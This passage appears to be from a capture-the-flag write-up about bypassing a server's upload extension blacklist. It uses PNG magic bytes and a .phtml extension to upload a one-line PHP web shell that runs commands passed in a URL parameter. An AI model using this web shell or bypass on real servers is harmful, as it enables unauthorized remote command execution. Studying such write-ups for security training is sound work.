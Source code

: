 Trying to change the content and filetype via burpsuite fails indicating a serverside file check.
The first thing to notice, is that some file extension yields different error messages than others. For example .php, .php3 and .php4 all yield messages directed to those file types specifically. While .phptml and .php5 gets a generic response.
This hints at the fact of the server blacklisting some extensions specifically, and others not. By using magic bytes of a PNG file, we succeed in uploading a file injected with:
```
<?php system($_GET['cmd']); ?>
```
with a .phtml extension which when executed allows us to interact with the server.
